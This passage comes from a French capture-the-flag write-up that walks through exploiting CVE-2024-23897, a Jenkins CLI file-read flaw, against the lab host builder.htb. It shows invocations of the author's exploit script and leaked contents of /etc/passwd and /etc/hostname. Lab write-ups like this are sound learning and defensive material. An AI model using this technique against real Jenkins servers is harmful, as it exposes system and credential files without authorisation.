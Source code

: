 Parfait ! Notre argument est parse avec args4j puis est répété dans un message d'erreur avant de nous êtes renvoyé !
Il y a probablement d'autres commandes qui répètent notre argument, mais pour l'instant on va rester sur `help` et écrire notre exploit !

## Exploiter un Local File Inclusion

### Créer l'exploit
J'ai écris l'exploit en Python, en utilisant le protocole CLI basé sur HTTP (L'utilisation de WebSocket aurait probablement été plus simple, mais j'ai préféré le challenge d'utiliser l'implémentation créative qui est faite avec le protocole HTTP)

En essayant l'exploit utilisant `help`, on voit qu'une seule ligne du fichier est affiché:
```shell
$ ./CVE-2024-23897.py -u "http://builder.htb:8080/" -p "/etc/passwd"

ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
java -jar jenkins-cli.jar help
 [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)
```
L'erreur `Too many arguments` vient probablement du parser args4j.
En essayant avec un fichier n'ayant qu'une seule ligne, on trouve le résultat attendu:

```shell
$ ./CVE-2024-23897.py -u "http://builder.htb:8080/" -p "/etc/hostname"
...
ERROR: No such command 0f52c222a4cc. Available commands are above.
```

On va donc chercher d'autres commandes qu'on pourrait utiliser, en espérant avoir les permissions nécessaire.
En cherchant des boucles `for` dans le code des commandes, on en trouve plusieurs qui itèrent à travers tous nos arguments.
On essaye donc d'utiliser une de ces commande dans notre exploit, dans mon cas j'ai essayé avec `connect-node`:

```shell
./CVE-2024-23897.py -u "http://builder.htb:8080/" -p "/etc/passwd"
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin" exists.
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.
bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.
```